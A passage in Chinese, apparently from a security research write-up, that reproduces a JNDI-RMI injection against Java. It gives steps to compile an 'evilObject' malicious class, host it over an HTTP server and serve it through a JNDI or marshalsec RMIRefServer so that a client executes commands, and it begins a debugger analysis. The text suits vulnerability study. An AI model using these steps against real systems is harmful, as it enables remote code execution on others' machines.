 ![JNDI-RMI](./images/8.png)

运行步骤:
 - 编译恶意类文件: `javac evilObject`
 - 在恶意类文件所在处起一个服务: `python3 -m http.server 4444`
 - 运行`JNDIServer`
 - 运行`JNDIClient`

注意事项:
 - `evilObject.java`及其编译的文件放到其它目录下, 避免在当前目录中直接找到该类来成功实现命令执行
 - `evilObject.java`文件不能申明包名, 声明后编译的`class`文件函数名称会加上包名从而不匹配
 - 注意使用`java`版本, 复现时需要满足可用`jdk`版本

除了利用代码搭建一个`RMI`服务外, 可以直接使用现成的工具`marshalsec`起一个`RMI`服务:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:80/#testObject 7777
```

### 过程分析
在`JNDIClient.java`文件中的`GenericURLContext#lookup`方法处下断点.

![JNDIClient-lookup](./images/9.png)
